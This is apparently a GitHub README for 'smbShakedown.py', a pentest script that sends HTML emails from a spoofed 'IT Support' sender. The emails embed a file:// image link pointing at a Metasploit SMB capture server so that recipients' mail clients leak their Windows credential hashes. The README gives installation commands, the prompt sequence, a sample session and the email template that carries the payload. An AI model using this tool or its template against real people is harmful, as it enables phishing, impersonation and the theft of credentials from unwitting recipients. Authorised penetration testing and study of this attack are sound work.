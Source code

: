 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0
#Installation
    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py
    
#Usage
    1.Enter SMTP Server address:
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not supported.)
    
    3.Configure "from" and "to" addresses:
    (separate multiple email addresses with a comma)
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5. Choose whether or not to launch Metasploit's SMB Capture server.

#Example
        
        Enter SMTP Server address[smtp.gmail.com]: 
        ENTERED: "smtp.gmail.com"

        Enter your SMTP Server Port[587]: 
        ENTERED: "587"

        Enter SMTP Server username[user@gmail.com]: 
        ENTERED: "user@gmail.com"

        Enter SMTP Server password: 

        Enter SMB Capture Server IP address[10.37.242.7]: 
        ENTERED:10.37.242.7

        Enter "from name":[IT Support]
        ENTERED:IT Support
        
        Enter "from address":[user@gmail.com]:user@gmail.com
        ENTERED:user@gmail.com
        
        Enter recipient(s) name[Bob]: Bob
        ENTERED:Bob
        
        etc..
        
#To update email template modify the following in source:
 
    ### EDIT: Email Message Template Below ###
	message = """From: {0} <{1}>
    To: {2} <{3}>
    MIME-Version: 1.0
    Content-type: text/html
    Subject: smbShakedown.py test.


    ...
    <b>smbShakedown.py test message.</b>
    <br>
    <img src=file://{4}/image/foo.gif>
    """
    ##########################################################

#To do:
    Add error handling.
    SMTP Auth option.


